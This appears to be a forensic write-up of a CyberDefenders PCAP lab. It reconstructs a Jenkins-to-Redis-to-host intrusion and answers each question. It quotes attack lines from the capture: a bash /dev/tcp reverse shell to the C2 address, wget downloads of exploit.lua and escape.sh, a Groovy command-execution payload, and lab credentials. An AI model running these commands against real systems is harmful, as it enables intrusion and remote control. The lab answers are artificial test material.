# RediShell - Kinsing Lab - PCAP Analysis (CyberDefenders)

## Scenario
Before the ransomware deployment, the attackers established initial access through a misconfigured CI/CD server running in a Docker container within Wowza's development network.
Security monitoring detected unusual outbound connections from the container subnet to a suspicious external IP address.
A packet capture was initiated automatically but was terminated when the attacker discovered and killed the monitoring process.
Your task is to analyze this network traffic to understand how the attackers gained their initial foothold and moved laterally within the containerized environment.

## References
- https://cyberdefenders.org/blueteam-ctf-challenges/redishell-kinsing/

## Initial Access & Reconnaissance

### Q1 - Security monitoring flagged suspicious HTTP traffic targeting the container subnet. Identifying the first system that received malicious requests is essential for establishing the initial point of compromise. What is the IP address of the first compromised system?

I used the `http` filter and checked the first suspicious HTTP requests. 
The traffic shows requests coming from `185.220.101.50` and targeting `172.16.10.10`.



Since Q1 asks for the first compromised system, not the attacker, the answer is the destination host that received the malicious HTTP requests.


**Answer:** `172.16.10.10`

### Q2 - Identifying attacker IP is critical for threat intelligence and blocking future connections. What is the attacker's command and control (C2) IP address?

From the same HTTP view, Q2 can be answered by looking at the source of the malicious requests.
The suspicious requests are going from `185.220.101.50` to `172.16.10.10`.

Since Q1 is the compromised system, the destination is `172.16.10.10`.
So the other side of the suspicious HTTP activity, the source sending the exploit/test request, is the attacker/C2 IP.

**Answer:** `185.220.101.50`

### Q3 - What web application and version was exploited for initial access?

I stayed on the same HTTP stream because the exploit request was already visible there.
After following the stream, I checked the server response headers instead of trying to guess the application only from `/script`.



In the HTTP response, the server exposes: `X-Jenkins: 2.387.1`
There is also `X-Hudson: 1.395`, but that is just a legacy Jenkins-related header.

**Answer:** `Jenkins, 2.387.1`

### Q4 - Before fully exploiting a vulnerability, attackers often perform a proof-of-concept test to confirm code execution capabilities. What file did the attacker initially read to test the vulnerability? (Provide full path)

I kept the `http` filter and looked at the POST requests to `/script` in chronological order.



The POST before this one already showed a simple command execution test, with `whoami`.
Right after that, the attacker used another POST to the same `/script` endpoint.


In the form body, the `script` parameter contains: `println 'cat /etc/passwd'.execute().text`
So the file read during the initial proof-of-concept phase was:

**Answer:** `/etc/passwd`

### Q5 - Identifying this vulnerable endpoint helps understand the attack vector and informs remediation efforts. What is the URI path of the vulnerable endpoint exploited by the attacker?

I used the same suspicious POST request and checked the HTTP request details.
The packet clearly shows:`Request URI: /script`

Since Q5 asks for the URI path of the vulnerable endpoint exploited by the attacker, the answer is just the path, not the full host or the POST body.


**Answer:** `/script`

## Execution

### Q6 - After confirming code execution, the attacker established a reverse shell connection back to their C2 infrastructure. What port number did the attacker use for the initial reverse shell listener?

I first isolated the HTTP traffic between the attacker and the compromised host:
```text
ip.addr == 185.220.101.50 && ip.addr == 172.16.10.10 && http
```


Then I checked the POST requests to the Jenkins `/script` endpoint.
Inside the last of those requests, the attacker sent the reverse shell command:
```text
bash -i >& /dev/tcp/185.220.101.50/4444 0>&1
```


This already gives the listener port, because the compromised host is being instructed to connect back to `185.220.101.50` on port `4444`.

After that, I also confirmed it by looking at the actual TCP traffic between `172.16.10.10` and `185.220.101.50` with this filter:
```text
ip.dst == 185.220.101.50 && ip.src == 172.16.10.10 && tcp
```


There, the connection pattern also shows traffic going back to destination port `4444`.

**Answer:** `4444`

## Discovery

### Q7 - Once inside the compromised container, the attacker uploaded a well-known enumeration script to identify privilege escalation vectors. What privilege escalation enumeration script did the attacker download after gaining shell access?
I directly filtered the reverse shell traffic from the compromised host back to the attacker on port `4444`:
```text
ip.dst == 185.220.101.50 && ip.src == 172.16.10.10 && tcp.port == 4444
```
This made the shell traffic easier to isolate without adding unnecessary noise.


Then I followed the TCP stream and checked the attacker’s commands after shell access.

In the stream, the attacker is interacting as `jenkins@jenkins-web`.

After some basic checks and setup commands, the relevant part is the download attempt for:
```text
http://185.220.101.50:2345/linpeas.sh
```



There is also a later `curl` command pointing to the PEASS-ng GitHub release and piping `linpeas.sh` to `sh`.

**Answer:** `linpeas`

## Credential Access

### Q8 - What file did the attacker read to obtain lateral movement credentials? (Provide full path)

To answer this one, I did not need a complicated filter.

While scrolling the reverse shell stream, I had already noticed references to credentials, so I simply searched for:
```text
credentials
```
That immediately brought me to the relevant LinPEAS output.

The stream shows LinPEAS searching for interesting files and then printing this path:

```text
/var/jenkins_home/credentials.txt
```



In Wireshark it appears with ANSI color/control sequences mixed into the text, something like:

```text
/var/.[1;96m.[1;31mjenkins.[0m.[0m_home/credentials.txt
```
Those parts are not part of the real file path.

They are terminal color codes used by the script to color the output.

After removing the ANSI sequences, the actual path is:

```text
/var/jenkins_home/credentials.txt
```

**Answer:** `/var/jenkins_home/credentials.txt`

### Q9 - What username and password combination did the attacker use for authentication to the second system? (Format: username:password)

After finding the credentials file, I simply kept scrolling a bit lower in the same reverse shell stream.

At that point I did not use any extra filter.

The content was already readable enough, so I just slowed down and actually read what was printed in the terminal output.




The file clearly contained a section called Corporate Network Credentials, with Telnet credentials for another internal host:

```text
TELNET_USER=redis_user
TELNET_PASS=r3d1s_Us3r_P@ss!
TELNET_HOST=172.16.10.20
TELNET_PORT=23
```

Since the question asks for the username and password combination used to authenticate to the second system, the relevant values are the Telnet username and password.

**Answer:** `redis_user:r3d1s_Us3r_P@ss!`

## Lateral Movement

### Q10 - The attacker used a legacy protocol to connect to the second target system. What unencrypted protocol did the attacker use for lateral movement?

This question can be answered immediately from the credentials file.

The file already says that the attacker had Telnet credentials for the second internal host:

```text
TELNET_USER=redis_user
TELNET_PASS=r3d1s_Us3r_P@ss!
TELNET_HOST=172.16.10.20
TELNET_PORT=23
```

A “lateral movement protocol” just means the protocol used by the attacker to move from the first compromised system to another system inside the same environment.

In this case, the first compromised system was the Jenkins container.

Then the attacker used the harvested credentials to connect to the second container.

Since the credentials are explicitly for Telnet, and Telnet uses port `23`, the protocol used for lateral movement was: `Telnet`


**Answer:** `Telnet`

### Q11 - After successfully authenticating with harvested credentials, the attacker gained access to a second container in the environment. Identifying this system helps map the scope of the compromise. What is the IP address of the second compromised system?

The next answer is also in the same credentials file.

The file shows the Telnet target host:

```text
TELNET_HOST=172.16.10.20
``` 

Since Q11 asks for the IP address of the second compromised system, the answer is the Telnet host reached after the first Jenkins compromise.


**Answer:** `172.16.10.20`

### Q12 - The Telnet login banner and subsequent enumeration revealed the hostname and the version of the data storage service running on the second compromised container. This information is crucial for identifying potential vulnerabilities. What is the hostname of the second compromised container and the version of the vulnerable data storage service? (Format: hostname, version)

The hostname was already visible from the Telnet session / prompt and from the earlier credentials context as:

```text
redis-db.corp.local
```

For the version, I solved it by staying on the Telnet traffic for the second compromised host:

```text
ip.addr == 172.16.10.20 && tcp.port == 23
```

At first I tried the more natural searches.

Things like `redis-server`, `redis_version`, `INFO`, or version-related strings made sense, because normally Redis version information is often obtained through commands like `INFO` / `redis_version`, or `redis-server --version`.

But in this capture those searches did not give me a clean result.

So I made the search broader, but still tied to the Telnet stream of the second host:

```text
ip.addr == 172.16.10.20 && tcp.port == 23 && frame contains "server"
```


That finally brought me to the relevant LinPEAS output.

In the Telnet stream, LinPEAS prints:

```text
Redis server v=5.0.7
```



**Answer:** `redis-db.corp.local, 5.0.7`

## Privilege Escalation

### Q13 - After gaining user-level access to the second container, the attacker uploaded a custom exploit file targeting a vulnerability in the container's data storage service. What file did the attacker upload for privilege escalation on the second system?

I isolated the Telnet communication to the second compromised system and followed the TCP stream.




Inside the stream, the attacker downloads a custom Lua exploit from the C2 server:

```text id="k8ot0h"
wget http://185.220.101.50:2345/exploit.lua
```

Right after that, the attacker makes it executable:

```text id="ucobfm"
chmod +x /exploit.lua
```

Then it is executed through Redis:

```text id="s343ju"
redis-cli -h 127.0.0.1 --eval exploit.lua
```




**Answer:** `exploit.lua`

### Q14 - What is the full path of the SUID binary exploited for privilege escalation?

I switched back to viewing the communication in both directions, instead of only one side of the Telnet stream.

Then I used Find with:

```text
exploit.lua
```



That brought me back to the part where the attacker downloads and runs the Lua exploit.

Right after the exploit execution, the attacker searches for the Redis-related SUID binary:

```text
SUID=$(find / -perm -4000 2>/dev/null | grep redis-backup)
```

The output then shows:

```text
[+] Found: /usr/local/bin/redis-backup
```

**Answer:** `/usr/local/bin/redis-backup`

### Q15 - What was the first command the attacker executed after privilege escalation?

After the SUID binary was found and executed, the prompt changed to root:

```text
root@redis-db
```

Immediately after privilege escalation, the attacker ran:

```text
whoami
```

The output confirms root access:

```text
root
```



**Answer:** `whoami`

### Q16 - The Lua exploit file uploaded by the attacker targets a specific vulnerability in the Redis scripting subsystem. What CVE number is associated with the Redis Lua subsystem vulnerability used for privilege escalation?

I searched externally because the PCAP gave me the practical exploit evidence, but not the CVE number directly.

From the Telnet stream, I already had the key artifacts:

```text
wget http://185.220.101.50:2345/exploit.lua
```

```text
redis-cli -h 127.0.0.1 --eval exploit.lua
```

So the exploit was clearly tied to Redis and Lua scripting.

Then I searched for:

```text
CVE redis scripting exploit redis-backup
```



Before submitting the answer, I read the Redis advisory instead of relying only on the search result title.

The advisory describes `CVE-2025-49844` as a Redis Lua use-after-free vulnerability where an authenticated user can use a specially crafted Lua script and potentially reach remote code execution. ([redis.io][1])

That matches the lab context well enough: the attacker had Redis access, uploaded `exploit.lua`, and executed it through `redis-cli`.

[1]: https://redis.io/blog/security-advisory-cve-2025-49844/?utm_source=chatgpt.com "Security Advisory: CVE-2025-49844"


**Answer:** `CVE-2025-49844`

## Defense Evasion - Container Escape

### Q17 - With root access inside the container, the attacker's next objective was escaping to the underlying host system. What is the name of the script executed to escape from the container to the host system?

I stayed in the same Telnet stream after the attacker became root on the second container.

After moving into `/root`, the attacker downloaded another script from the C2 server:

```text id="m856um"
wget http://185.220.101.50:2345/escape.sh
```

Then the script was made executable and launched:

```text id="qgw69a"
chmod +x escape.sh
./escape.sh
```

This already points to `escape.sh` as the container escape script.



We can confirm it even more directly because the script output literally says that the escape was successful:

```text id="h3xhdp"
nsenter escape successful
```

**Answer:** `escape.sh`

### Q18 - The container escape script established a new reverse shell connection to the attacker's C2 infrastructure. What port was used for the reverse shell connection after escaping the container?

After the script reports the container escape, it prints the checks to perform:

```text
Reverse shell on 185.220.101.50:5555
```



**Answer:** `5555`

### Q19 - What CVE number is associated with the container escape vulnerability?

I searched externally because the PCAP showed the escape behavior, but not the CVE number directly.

From the script output, I already had the relevant container escape artifacts:

```text
Host path: /var/lib/docker/overlay2/...
```

```text
Attempting Method 3: nsenter to host namespace
nsenter escape successful
```

```text
[NSENTER] Escaped to host!
```

Then I searched using the container escape context and the Docker overlay path:

```text
CVE var/lib/docker/overlay2/ escape.sh
```



That brought me to `CVE-2022-0492`, described as a Linux container escape vulnerability.

This matches the lab context because the attacker executed `escape.sh`, escaped from the Redis container to the host, and then established a new reverse shell after the escape.

**Answer:** `CVE-2022-0492`

## Persistence & Impact

### Q20 - After successfully escaping to the host system, the attacker created a file to document their access. What is the full path of the proof-of-compromise file created by the attacker on the host system?


After the script completes, it tells what to check for:

```text
Proof file on host: /tmp/you_have_been_hacked.txt
```



**Answer:** `/tmp/you_have_been_hacked.txt`

### Q21 - To facilitate uploading additional tools to the compromised host, the attacker installed a Python-based HTTP server that supports file uploads. What server did the attacker install on the host system?
I stayed on the post-escape reverse shell traffic and searched for the upload server directly:

```text id="83a89v"
ip.addr == 185.220.101.50 && tcp.port == 5555 && frame contains "uploadserver"
```



That brought me to the relevant command/output.

The attacker installed the Python upload server with:

```text id="azs8ck"
pip install uploadserver
```

The output also confirms it:

```text id="ajyqcu"
Successfully installed uploadserver-5.2.2
```

So the server installed on the host system was:

```text id="8hqif5"
uploadserver
```



**Answer:** `uploadserver`

### Q22 - Using the upload server, the attacker transferred files necessary for installing a kernel-level rootkit, which would provide persistent, stealthy access to the compromised host. What files did the attacker upload to the host system for rootkit installation? (List all files, comma-separated)

For Q22, the answer is visible in the `uploadserver` logs.

After the attacker started the upload server, the log shows files being uploaded into `/root/file/`.



The relevant uploaded rootkit files are:

```text
kernel-rootkit.c
```

```text
Makefile
```

```text
install-rootkit.sh
```

The `employee_data.csv` file appears in the same upload server traffic, but it is not part of the rootkit installation files.

**Answer:** `kernel-rootkit.c, Makefile, install-rootkit.sh`

>[!NOTE]
>
>
>
>We can also notice that a lot of the story was basically visible just by filtering HTTP:
>
>```text
>http
>```
>
>In that view, the main phases are already summarized in front of us:
>
>```text
>POST /script
>GET /ubuntu/...
>GET /
>GET /employee_data.csv
>```
>
>So yes, in a small lab dataset like this, a simple HTTP filter already gives a rough timeline of what happened.
>
>The first Jenkins exploitation is visible through the `/script` requests.
>
>The package installation phase is visible through the Ubuntu package downloads.
>
>The later file-transfer activity is visible through the HTTP server requests and uploaded/downloaded files.
>
>But this is also why it is important not to stop at “I saw the file name”.
>
>Investigation is not only about finding **what** appeared in the traffic.
>
>It is about understanding **how** the attacker moved from one phase to the next:
>
>```text
>Jenkins exploitation
>→ reverse shell
>→ linpeas.sh
>→ credentials.txt
>→ Telnet to second host
>→ Redis exploit.lua
>→ SUID privilege escalation
>→ escape.sh
>→ host reverse shell
>→ uploadserver
>→ rootkit files
>```
>
>So the HTTP filter gives a useful high-level summary.
>
>The actual analysis comes from following the right streams and understanding why each artifact appears there.

## Defense Evasion - Anti-Forensics

### Q23 - Before concluding their session, the attacker discovered that network traffic was being captured and took action to terminate the monitoring process. What is the full command executed by the attacker to terminate the network packet capture process?

In the post-escape host shell, the attacker checked the running processes and searched for `tcpdump`.

The output showed the packet capture process writing to:

```text
/tmp/monitor.pcap
```


The relevant process had PID `24918`.

After identifying it, the attacker terminated the capture process.

**Answer:** `kill -9 24918`
